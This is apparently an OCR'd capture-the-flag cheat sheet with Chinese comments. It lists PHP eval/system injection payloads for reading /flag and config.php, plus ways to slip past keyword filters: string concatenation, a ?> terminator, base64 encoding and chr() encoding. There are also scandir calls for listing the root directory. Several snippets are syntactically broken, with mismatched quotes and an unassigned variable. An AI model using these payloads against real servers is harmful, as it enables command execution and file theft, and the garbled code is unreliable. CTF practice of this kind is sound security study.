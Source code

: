 highlight_file("config.php");        //文件内容包含高亮。
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。
eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。


print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag